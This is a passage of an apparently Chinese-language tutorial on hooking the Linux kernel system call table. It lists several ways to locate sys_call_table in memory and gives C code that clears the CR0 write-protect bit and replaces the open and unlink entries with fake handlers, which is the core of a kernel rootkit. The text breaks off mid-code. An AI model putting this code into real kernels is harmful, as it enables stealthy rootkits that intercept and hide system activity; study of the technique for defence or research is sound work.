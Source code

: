 ```c
asmlinkage const sys_call_ptr_t sys_call_table[__NR_syscall_max+1] = {
	/*
	 * Smells like a compiler bug -- it doesn't work
	 * when the & below is removed.
	 */
	[0 ... __NR_syscall_max] = &sys_ni_syscall,
#include <asm/syscalls_64.h>
};
```

要修改它，先拿到在内存中的位置，然后关闭写保护。

**获取 `sys_call_table` 的内存地址**

1. 暴力搜索内存空间（可能被欺骗

2. 读取 `/boot/System.map` 

3. 使用 `sys_call_table` 的某些未导出函数的机器码进行特征搜索

   1. get IDTR using SIDT

   2. extract the IDT address from the IDTR

   3. get the address of `system_call` from the 0x80th entry of the IDT

      `call <sys_call_table address>(, %eax, 4)` in memory is:

      `0xff 0x14 0x85 0x{sys_call_table address}`

   4. search `system_call` for code fingerprint

4.  `kallsyms_lookup_name("sys_call_table");` 如果这个函数没有导出就不能用。

5. `/proc/kallsyms` 文件

```c
unsigned long **get_sys_call_table(void) {
    unsigned long **entry = (unsigned long **)PAGE_OFFSET;
    for(; (unsinged long)entry < ULONG_MAX; entry += 1) {
        if(entry[__NR_close] == (unsigned long*)sys_close) {
            return entry;
        }
    }
    return NULL;
}
```

`PAGE_OFFSET` 是内核内存空间的起始地址。`sys_close` 是导出函数，可直接得到地址。

**关闭写保护**

找到地址，下面就要关闭下保护。由 `CR0` 寄存器的第 16 位控制。可以使用 `read_cr0/write_cr0` 读写，置位或置零使用 `set_bit/clear_bit`。现在就可以修改调用表了，先保存好原始的再覆盖。

```c
void disable_write_protection(void) {
    unsigned long cr0 = read_cr0();
    clear_bit(16, &cr0);
    write_cr0(cr0);
}

void enable_write_protection(void) {
    unsigned long cr0 = read_cr0();
    set_bit(16, &cr0);
    write_cr0(cr0);
}

disable_write_protection();
real_open = (void *)sys_call_table[__NR_open];
sys_call_table[__NR_open] = (unsigned long*)fake_open;
real_unlink = (void *)sys_call_table[__NR_unlink];
```